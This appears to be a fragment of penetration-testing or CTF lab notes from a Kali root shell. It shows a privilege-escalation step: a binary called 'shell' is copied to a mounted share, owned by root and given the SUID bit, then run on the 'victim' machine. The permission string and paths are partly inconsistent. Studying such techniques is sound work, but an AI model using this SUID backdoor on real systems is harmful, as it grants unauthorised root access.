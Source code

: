 ```
┌──(root㉿kali)-[/home/demise]
└─# chmod 755 shell
                                                                                                                                                                                                                                             
┌──(root㉿kali)-[/home/demise]
└─# ls -la shell   
-rwxr-xr-x 1 root root 8392 Jul 11 09:12 shell
                                               
```

you have to copy it to` /mnt `first before you can specify `suid execute`


```
cp shell /mnt
chown root:root /mnt/shell
chmod u+s /mnt/shell
```
`victim`
```
 ls  -la /tmp/shell
   -rws-xxx # if done right
   
/tmp/shell
```
![[Pasted image 20250711162224.png]]

